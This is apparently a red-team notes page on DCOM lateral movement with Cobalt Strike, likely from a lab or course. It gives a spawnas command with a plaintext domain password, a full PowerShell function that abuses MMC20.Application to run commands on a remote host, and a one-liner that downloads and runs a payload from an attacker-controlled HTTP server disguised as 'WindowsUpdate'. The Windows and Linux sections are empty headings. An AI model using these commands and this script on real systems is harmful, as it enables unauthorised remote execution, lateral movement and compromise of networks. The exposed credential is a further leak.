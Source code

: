 ### Technical Overview
COM (Component Object Model) objects are objects that are "exposed" on the operating system, much like an API.

These Objects allow other software to interact with itself and can be found in excess on any modern Windows operating system.
- They still have their uses, but the well documented COM objects that can be used for lateral movement are pretty easily spotted nowadays, of course your mileage can vary from environment to environment.
###### OPSEC
DCOM lateral movement has been one of the better lateral movement techniques for years, however as they became more popular and were starting to get more attention by bloggers and open source tooling, detection rates skyrocketed.
# C2 - Cobalt Strike
## Enumeration 
DCOM lateral movement is not built into Cobalt Strike. Furthermore, DCOM does not like token impersonation. As a result you will need a C2 channel as the user you wish to laterally move with.

Please spawn a new Beacon using the following command (if your listener is called something other than HTTPS-SHORT, please replace with the name of your listener (can be tab completed)) 

```markdown
spawnas draconem\Giulio.Stanion d8PEZ#$UM6Vs!h5j HTTPS
```
![[Pasted image 20240412013329.png]]
 A new beacon is going to be spawned as Giulio, please switch over to this beacon for the next commands of this lateral movement technique. 
## Exploitation 

In order to lateraly move over DCOM, the easiest way would be to use PowerShell, we have the following Script available 
```powershell
function Invoke-MMC20
{
[CmdletBinding()]
    Param (
        [Parameter(Mandatory=$True)]
        [string]$Target,
        [Parameter(Mandatory=$True)]
        [string] $Command
    )
    echo "executing $Command on $Target"
    $a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application",$Target))
    $a.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,$Command,"")

}
```
We can import this script into Cobalt Strike and then execute it. 
```powershell
powershell-import C:\Tools\Invoke-MMC20.ps1
powershell Invoke-MMC20 -Target HR01 -Command "IEX ((new-object net.webclient).downloadstring('http://10.130.4.100:8888/WindowsUpdate'))"
```
After a few seconds, a new beacon will check in on HR01

![[Pasted image 20240412013506.png]]

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```
## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```
## Exploitation 

```markdown
```
